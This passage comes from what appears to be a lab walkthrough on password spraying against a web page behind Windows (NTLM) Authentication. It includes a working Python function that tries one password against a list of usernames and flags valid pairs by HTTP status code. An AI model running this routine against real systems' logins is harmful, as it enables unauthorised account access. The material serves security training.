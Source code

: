 Navigating to the URL, we can see that it prompts us for Windows Authentication credentials:

![img](assets/5f18e5326d5a50d656d1827221bdcac7.png)

**Note:** *Firefox's Windows Authentication plugin is incredibly prone to failure. If you  want to test credentials manually, Chrome is recommended.*

We could use tools such as [Hydra](https://github.com/vanhauser-thc/thc-hydra) to assist with the password spraying attack. However, it is often  better to script up these types of attacks yourself, which allows you  more control over the process. A base python script has been provided in the task files that can be used for the password spraying attack. The  following function is the main component of the script:

```python
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```

This function takes our suggested password and the URL that we are targeting as input and attempts to authenticate to the URL with each  username in the textfile. By monitoring the differences in HTTP response codes from the application, we can determine if the credential pair is valid or not. If the credential pair is valid, the application  would respond with a 200 HTTP (OK) code. If the pair is invalid, the  application will return a 401 HTTP (Unauthorised) code. 
